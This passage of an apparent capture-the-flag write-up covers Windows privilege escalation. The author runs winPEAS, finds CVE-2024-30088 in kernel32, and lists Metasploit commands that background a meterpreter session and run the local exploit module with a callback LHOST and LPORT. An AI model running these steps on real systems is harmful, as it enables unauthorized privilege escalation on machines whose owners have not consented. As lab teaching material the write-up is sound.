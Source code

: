 `winPEAS` does take a while, so let it run and it will be done shortly.

If you don't know where to look for while using `winPEAS`, don't worry. `winPEAS` has their own legend that makes it easier to navigate.

![legend](docs/20.png)

Focus on the red text that comes by.

After doing *alot* of reading, something catches my eye.

`kernel32`

![kernel32](docs/21.png)

Using google to find more about `kernel32` we find this site: https://attackerkb.com/topics/y8MOqV0WPr/cve-2024-30088

*Exploitability - High*, we will try to use this to elevate further to get user.txt.

When you are still as `shell`, `exit` back to `meterpreter` and type `background`. The session is still running but it is running in the background as we try to exploit `kernel32` with the found `cve-2024-30088`.

When backed all the way out type:

`use exploit/windows/local/cve_2024_30088_authz_basep` To set the CVE
`set LHOST tun0`
`set LPORT 4444`
`show sessions` To see what session Id our background is running as.
`set session <Id>`
`run`
